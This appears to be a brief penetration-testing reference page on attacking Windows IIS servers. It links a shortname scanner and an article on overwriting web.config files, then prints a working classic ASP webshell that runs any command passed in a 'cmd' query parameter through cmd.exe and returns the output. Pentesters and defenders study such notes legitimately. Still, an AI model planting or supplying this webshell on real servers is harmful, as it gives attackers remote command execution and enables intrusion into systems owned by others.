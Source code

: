 # Windows IIS

## Shortname

[https://github.com/lijiejie/IIS\_shortname\_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)

## web.config

In this exploit we take the assumption that we have file write into a web-app and are able to overwrite the web.config file. The article [Upload a web.config File for Fun and Profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) shows us a few we can upload to achieve various objectives.

We can achieve a simple webshell with the follow classic ASP code:

```text
set cmd = Request.QueryString("cmd")
Set os = Server.CreateObject("WSCRIPT.SHELL")
output = os.exec("cmd.exe /c " + cmd).stdout.readall
response.write output
```

